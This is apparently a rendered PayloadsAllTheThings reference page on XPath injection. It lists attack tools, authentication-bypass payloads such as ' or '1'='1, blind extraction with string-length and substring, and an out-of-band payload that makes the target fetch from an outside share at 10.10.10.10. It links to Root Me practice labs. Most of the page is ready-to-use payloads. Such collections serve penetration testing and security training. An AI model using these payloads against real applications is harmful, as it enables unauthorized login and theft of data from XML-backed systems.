

repository: swisskyrepo/PayloadsAllTheThings · page: XPATH Injection/index.html · generator: mkdocs

# XPATH Injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Blind Exploitation](#blind-exploitation)
    * [Out Of Band Exploitation](#out-of-band-exploitation)
* [Labs](#labs)
* [References](#references)

## Tools

* [orf/xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
* [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool
* [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text
* [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

## Methodology

Similar to SQL injection, you want to terminate the query properly:

```ps1
string(//user[name/text()='" +vuln_var1+ "' and password/text()='" +vuln_var1+ "']/account/text())
```

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
')] | //user/*[contains(*,'
') and contains(../password,'c
') and starts-with(../password,'c
```

### Blind Exploitation

1. Size of a string

    ```sql
    and string-length(account)=SIZE_INT
    ```

2. Access a character with `substring`, and verify its value the `codepoints-to-string` function

    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

### Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## Labs

* [Root Me - XPath injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)
* [Root Me - XPath injection - String](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)
* [Root Me - XPath injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)
